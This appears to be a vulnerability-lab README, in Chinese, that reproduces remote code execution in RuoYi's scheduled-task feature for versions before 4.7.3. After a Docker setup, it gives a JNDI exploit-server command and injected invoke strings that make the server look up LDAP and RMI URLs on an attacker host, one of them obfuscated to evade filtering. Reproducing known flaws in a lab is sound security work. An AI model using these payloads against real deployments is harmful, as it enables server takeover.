



# **ruoyi**-rytask-any-reflection-call-rce

​	若依（RuoYi）是一款基于Spring Boot的快速开发平台，旨在为企业提供一种快速构建应用程序的方式。它基于Spring Boot、MyBatis、Thymeleaf等经典技术组合，内置了部门管理、角色用户、菜单及按钮授权、数据权限、系统参数、日志管理、通知公告等常用模块。

​	若依定时任务的实现是通过反射调来调用目标类，目标类的类名可控导致rce

版本影响<4.7.3

项目地址：https://gitee.com/y_project/RuoYi

参考链接：https://forum.butian.net/share/2796


## 漏洞环境

执行如下命令启动一个ruoyi-v4-6-2：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`将自动跳转到ruoyi登录界面

注：本环境jdk-8u131



## 漏洞复现

1.JNDI版

开启JNDI服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "mkdir /tmp/jndi-rce"
```

使用后台定时任务，换用调用目标字符串如下后执行任务。

```php
javax.naming.InitialContext.lookup('ldap://192.168.211.1:1389/sfzggg')
```






2，rmi版

org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://192.168.211.1:1099/qcfgvp')

3, 其他利用方式

[略]
